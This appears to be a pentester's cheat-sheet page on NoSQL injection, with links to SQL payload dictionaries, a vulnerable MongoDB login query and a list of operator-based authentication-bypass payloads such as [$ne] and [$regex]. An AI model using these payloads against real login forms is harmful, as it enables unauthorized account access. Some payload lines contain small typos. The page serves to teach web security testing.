


#  NoSQL injection

!!! tip "Related resources"
	- [Detailed SQLi Cheat sheet for manual attack](../sqli-manual-attack.md).
	- [SQL injection](sql-injection.md)
	- [NoSQL injection](nosql-injection.md)
	- [SQLite injections](sqlite-injections.md)


[Dictionary for NoSQL injections](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/NoSQL-injections.md).

Examples of NoSQL databases: [redis](../6379-redis.md), [mongo](../mongo.md).

??? example "Languages and dictionaries"
	| Server | Dictionary |
	| -- | -- |
	|  [MySQL](../mysql.md) | [MySQL payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/MySQL%20Injection.md). | 
	| [MSSQL](../mssql.md) | [MSSQL payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/MSSQL%20Injection.md). |
	|  [PostgreSQL](../5432-postgresql.md) | [PostgreSQL payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/PostgreSQL%20injection.md). |
	|  [Oracle](../1521-oracle-transparent-network-substrate.md) | [Oracle SQL payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/Oracle-SQL-injections.md). |
	| [SQLite](sqlite-injections.md) | [SQLite payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/SQLite-injection.md). | 
	| Cassandra | [Cassandra payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/Cassandra%20Injection.md). | 

??? example "Attack-based dictionaries"
    - [Generic SQL Injection Payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/generic-injections)
    - [Generic Error Based Payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/error-based).
    - [Generic Union Select Payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/union-select).
    - [SQL time based payloads ](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/time-based).
    - [SQL Injection Auth Bypass Payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/auth-bypass) 


SQL stands for Structure Query Language. NoSQL Injection is a security vulnerability that occurs in applications that utilize NoSQL databases. It is a type of attack that involves an attacker manipulating a NoSQL database query by injecting malicious input, leading to unauthorized access, data leakage, or unintended operations. In traditional SQL Injection attacks, attackers exploit vulnerabilities by inserting malicious SQL code into input fields that are concatenated with database queries. Similarly, in NoSQL Injection, attackers exploit weaknesses in the application's handling of user-supplied input to manipulate NoSQL database queries.

**How does it work a NoSQL injection?** Explanation: 

```
# MongoDB query
var query = {
username: username,
password: password
};

# Perform query to check if credentials are valid
var result = db.users.findOne(query);

if (result) {
// Login successful
} else {
// Login failed

```

In this example, the application constructs a MongoDB query using user-supplied values for the username and password fields. If an attacker intentionally provides a specially crafted value, they could potentially exploit a NoSQL injection vulnerability. For instance, an attacker might enter the following value as the username parameter:

```
$gt:""
```

The attacker could potentially bypass the login mechanism and gain unauthorized access.

Typical payloads:

```
# Payload
username[$ne]=1$password[$ne]=1
# Use case/Function: Not equals to (Auth Bypass)                |

# Payload
username[$regex]=^adm$password[$ne]=1
# Use case/Function: Checks a regular expression (Auth Bypass)

# Payload
username[$regex]=.{25}&pass[$ne]=1
# Use case/Function: Checks regex to find the length of a value

# Payload
username[$eq]=admin&password[$ne]=1 
# Use case/Function: Equals to.

# Payload
username[$ne]=admin&pass[$gt]=s 
# Use case/Function: Greater than.
```


Example of a user search form: 



With the not equal operator, it will return all users except for "admin".

